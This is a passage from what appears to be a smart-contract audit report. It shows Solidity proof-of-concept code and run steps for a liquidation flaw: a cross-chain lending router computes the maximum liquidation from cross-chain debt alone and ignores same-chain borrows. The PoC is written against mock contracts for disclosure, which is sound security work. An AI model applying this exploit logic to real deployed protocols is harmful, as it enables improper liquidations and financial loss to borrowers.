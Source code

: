 ```solidity
    }

    // Helper function to simulate total debt (for comparison)
    function getTotalBorrow(address borrower) external view returns (uint256) {
        uint256 crossChainDebt = crossChainBorrows[borrower][address(borrowedlToken)];
        uint256 sameChainDebt = sameChainBorrows[borrower][address(borrowedlToken)];
        return crossChainDebt + sameChainDebt;
    }
}

contract PoCTest {
    CrossChainRouterPoC public router;
    LTokenMock public lToken;

    constructor() {
        lToken = new LTokenMock();
        router = new CrossChainRouterPoC(address(lToken));
    }

    function testVulnerability() external {
        address bob = address(0x1);
        
        // Setup: Bob borrows 1,000 USDC cross-chain and 500 USDC same-chain
        router.setupBorrows(bob, 1000e18, 500e18);

        // Liquidation params for cross-chain borrow only
        CrossChainRouterPoC.LiquidationParams memory params = CrossChainRouterPoC.LiquidationParams({
            borrowedlToken: address(lToken),
            borrowPrinciple: 1000e18, // Cross-chain borrow principal
            storedBorrowIndex: 1e18,  // Initial borrow index
            borrower: bob,
            repayAmount: 440e18       // Attempt to repay 440 USDC (after interest)
        });

        // Execute liquidation (should succeed based on partial debt)
        router.executeLiquidation(params);

        // Check total debt (for reference)
        uint256 totalDebt = router.getTotalBorrow(bob);
        assert(totalDebt == 1500e18); // Total debt is 1,500 USDC, but liquidation only saw 1,000 USDC
    }
}
```

#### Running the PoC
1. Deploy the `PoCTest` contract.
2. Call `testVulnerability()` to simulate the scenario:
   - Bob has 1,000 USDC cross-chain and 500 USDC same-chain borrows.
   - After interest accrual (10%), the cross-chain borrow becomes 1,100 USDC.
   - `maxLiquidation` is calculated as 40% of 1,100 USDC = 440 USDC.
   - Liquidation succeeds for 440 USDC, ignoring the total debt of 1,500 USDC.
